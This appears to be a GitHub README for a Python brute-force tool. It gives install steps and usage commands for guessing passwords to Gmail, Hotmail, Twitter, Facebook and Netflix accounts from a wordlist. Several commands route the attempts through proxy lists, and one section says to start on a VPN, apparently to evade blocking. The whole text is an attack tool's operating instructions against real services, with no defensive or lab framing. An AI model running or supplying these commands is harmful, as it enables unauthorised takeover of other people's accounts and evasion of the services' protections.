 # BruteForce
install :
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
Usage:
BruteForce Gmail Attack
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
BruteForce Hotmail Attack
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
BruteForce Twitter Attack
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt
BruteForce Facebook Attack
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
BruteForce Netflix Attack

Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt
